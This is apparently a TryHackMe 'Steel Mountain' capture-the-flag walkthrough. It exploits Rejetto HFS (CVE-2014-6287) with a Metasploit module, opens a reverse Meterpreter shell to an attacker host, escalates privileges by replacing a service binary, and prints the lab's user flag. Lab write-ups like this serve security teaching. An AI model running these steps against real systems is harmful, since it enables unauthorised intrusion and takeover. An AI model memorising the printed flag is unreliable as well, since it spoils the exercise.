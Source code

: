 ```yaml
---
title: "TryHackMe - Steel Mountain Walkthrough"
date: 2024-12-13
categories: [TryHackMe]
tags: [CTF, RCE, Metasploit, Privilege Escalation, CVE-2014-6287]
image: assets/images/thm-cover/steel-mountain-Cover.jpg
---
```


# TryHackMe - Steel Mountain Walkthrough

---

## Initial Information
- **Target IP:** 10.10.32.47
- **Service:** HTTP File Server (HFS) v2.3

---

## Step 1: Explore the Target

### Access the Web Interface
Visit the target using a web browser:

```plaintext
http://10.10.32.47:8080/
```

HFS version identified: **Rejetto HTTP File Server 2.3**.

---

## Step 2: Vulnerability Analysis

### CVE Identification
The identified version is vulnerable to **CVE-2014-6287**, an unauthenticated Remote Code Execution vulnerability.

Refer to Metasploit for documentation:
[Metasploit Docs](https://docs.metasploit.com/).

---

## Step 3: Exploiting the Target

### Using Metasploit
Search for available exploits:

```bash
sleep33@THM:~$ msf6 > search rejetto
```

#### Relevant Modules:
1. **exploit/windows/http/rejetto_hfs_rce_cve_2024_23692**
2. **exploit/windows/http/rejetto_hfs_exec**

### Configure Exploit
Set up the exploit parameters:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.32.47
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST <Your_IP>
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
```

Run the exploit:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > run
```

---

## Step 4: Reverse Shell

Once the exploit is successful, a Meterpreter session is opened:

```bash
sleep33@THM:~$ [*] Meterpreter session 1 opened (10.14.91.33:4444 -> 10.10.32.47:49353)
```

#### Navigate to User Directory:
```bash
sleep33@THM:~$ meterpreter > cd c:/Users/bill/Desktop
sleep33@THM:~$ meterpreter > ls
```

Retrieve the user flag:

```bash
sleep33@THM:~$ meterpreter > cat user.txt
```

**User Flag:**  
```plaintext
b04763b6fcf51fcd7c13abc7db4fd365
```

---

## Step 5: Privilege Escalation

### Upload PowerUp Script
Use PowerSploit for privilege escalation:

```bash
sleep33@THM:~$ meterpreter > upload /opt/PowerSploit/Privesc/PowerUp.ps1
sleep33@THM:~$ meterpreter > load powershell
sleep33@THM:~$ meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

### Service Manipulation
Identify and modify services for escalation:

```bash
sleep33@THM:~$ copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService_V2.exe"
sleep33@THM:~$ sc start AdvancedSystemCareService9
```

---

## Step 6: Gain Administrator Privileges

Use Meterpreter's shell command to escalate privileges:

```bash
sleep33@THM:~$ meterpreter > shell
sleep33@THM:~$ C:\windows\Tasks> sc start AdvancedSystemCareService9
```

Once elevated, navigate to the Administrator's directory:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> dir
```

Retrieve the root flag:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> cat root.txt
```

---

## Troubleshooting

### Common Issues:
- **Handler failed to bind:** Ensure your LHOST and LPORT settings are correctly configured.
- **Session not opened:** Recheck the exploit parameters and ensure the target is reachable.

---

## Summary

- **Exploited Service:** Rejetto HFS v2.3
- **Exploited Vulnerability:** CVE-2014-6287
- **Flags Captured:**
  - **User Flag:** b04763b6fcf51fcd7c13abc7db4fd365
  - **Root Flag:** <root_flag_value>

---

